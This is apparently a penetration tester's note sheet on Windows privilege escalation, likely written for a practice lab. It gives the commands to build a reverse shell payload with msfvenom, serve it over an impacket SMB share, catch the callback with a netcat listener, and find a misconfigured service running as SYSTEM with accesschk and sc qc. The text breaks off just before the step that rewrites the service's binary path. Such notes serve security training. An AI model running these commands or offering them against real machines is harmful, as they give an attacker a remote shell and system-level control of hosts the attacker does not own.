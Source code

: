 # windows - privesc

## generating reverse shell

---

On kali:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

(this sets an SMB file share service on kali)

On windows:

```bash
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

(this uses SMB file sharing service to transfer files from Kali)

On kali:

```bash
sudo nc -nvlp 53
```

On windows:

```
C:\PrivEsc\reverse.exe
```

## insecure service permissions

---

Check user account perms on "daclsvc" service

```
accesschk.exe /accepteula -uwcqv user daclsvc
```

It has `SERVICE_CHANGE_CONFIG`, meaning that it has permissions to change the service config.

Check is service is running with SYSTEM privileges

```
sc qc daclsvc
```

Check `SERVICE_START_NAME` field and it says `LocalSystem`

Change binary path name:
